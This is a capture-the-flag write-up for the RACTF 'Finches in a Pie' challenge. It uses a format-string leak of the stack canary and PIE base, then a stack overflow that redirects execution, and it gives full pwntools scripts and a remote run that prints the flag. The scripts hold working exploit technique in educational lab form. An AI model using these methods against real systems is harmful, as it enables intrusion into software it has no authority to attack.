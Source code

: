 # Finches In A Pie

This challenge is very similar to Finches in a Stack, so this one is more like a continuation of that writeup, so I'd advise reading that one first before reading this one. Here's the link: [Finches in a Stack](finches-in-a-stack.md)

### Protections

First, let's check the protections that this binary has using checksec:

```text
sasha@kali:~/RACTF$ pwn checksec fiap
[*] '/home/sasha/RACTF/fiap'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

So here's what we have to deal with:

* Canary: This is a protection that places a random value before a return pointer, so that if you overwrite it with an invalid value, the program crashes
* NX: This prevents us from executing our own shellcode by marking critical areas as non-executable

And a new one:

* PIE: This essentially randomizes the addresses of the functions and gadgets, making returning to functions harder

Since this binary is practically the same as `fias`, I won't go over the reversing again

### Overview

Our exploit is going to have four parts again:

* Padding, to reach the canary
* Canary, to overwrite canary, so that the program doesn't crash
* More padding, to reach the return pointer
* Return Pointer, where we point back into 'flag'

We already have the other 4 sorted, however our new challenge is to find the return pointer, due to PIE randomizing it

### Leaking PIE

Fortunately, we can also leak a PIE address with format strings, this time it's `%12$p`. However, there are some calculations that need to be made to get the base address Lets load up gdb and have a look at the functions:

```text
0x00001209  flag
```

So now we have the offset of `flag`. Let's run it with a breakpoint at say\_hi \(as that's where input is taken\):

```text
gdb-peda$ b say_hi
Breakpoint 1 at 0x1287
gdb-peda$ r
```

Let's skip to the printf which we use to leak, entering `%12$p` in the `gets`:

```text
gdb-peda$ 
0x56559000!
```

Now we need to find out what to do with this address to get the base address. Let's take a function, say the `flag` function, see where it is now after being randomized:

```text
gdb-peda$ p flag
$1 = {<text variable, no debug info>} 0x56556209 <flag>
```

And using our offset from before

> 0x00001209 We will take the offset away from the flag address, to find the base:
>
> ```text
> gdb-peda$ p/x 0x56556209 - 0x1209
> $2 = 0x56555000
> ```
>
> So that's our base address, now we do:
>
> ```text
> gdb-peda$ p/x 0x56559000 - 0x56555000
> $3 = 0x4000
> ```
>
> To find the offset of the leaked PIE address. Now, using this information, we can always find the return pointer we need

### Local exploit

Now we can create our local exploit using python3 + pwntools. We send the two format strings in the same line, separated by a `-`, so we can leak the canary and PIE at one time:

```python
from pwn import *

e = ELF("fiap")
io = e.process()

for i in range(0,10):
    io.recvline()

io.sendline("-%11$p-%12$p-")        # Leak both canary and PIE
recieved = str(io.recvline()).split("-")
canary = int(recieved[1],16)
pie = int(recieved[2],16) - 0x4000    # Gets base
log.info("Canary: " + str(hex(canary)))
log.info("PIE: " + str(hex(pie)))
io.recvline()

flag = pie + 0x1209    # Base + Flag offset

payload = b"a" * 25        # Pads upto canary
payload += p32(canary)        # Overwrites canary
payload += b'bbbbccccdddd'     # Pads upto return address
payload += p32(flag)        # Overwites return addr with addr of flag function

io.sendline(payload)
print(io.recvline().decode())
io.close()
```

### Transferring to remote

Transferring to remote is very simple once again:

```python
from pwn import *
import sys

args = sys.argv[1].split(":")
ip = args[0]
port = args[1]

io = remote(ip,port)

for i in range(0,10):
    io.recvline()

io.sendline("-%11$p-%12$p-")        # %11$lx leaks canary, %12$p leaks pie
recieved = str(io.recvline()).split("-")
canary = int(recieved[1],16)
pie = int(recieved[2],16) - 0x4000    # Leaked pie take 0x4000 results in binary base

log.info("Canary: " + str(hex(canary)))
log.info("PIE: " + str(hex(pie)))
io.recvline()

flag = pie + 0x1209

payload = b"a" * 25        # Pads upto canary
payload += p32(canary)        # Overwrites canary
payload += b'bbbbccccdddd'     # Pads upto return address
payload += p32(flag)        # Overwites return addr with addr of flag function

io.sendline(payload)
print(io.recvline().decode())
io.close()
```

Let's now run it:

```text
sasha@kali:~/RACTF$ python3 fiapremote.py 95.216.233.106:49276
[+] Opening connection to 95.216.233.106 on port 49276: Done
[*] Canary: 0x3132f200
[*] PIE: 0x565d6000
ractf{B4k1ng_4_p1E!}

[*] Closed connection to 95.216.233.106 port 49276
sasha@kali:~/RACTF$
```

Challenge done!

**ractf{B4k1ng\_4\_p1E!}**

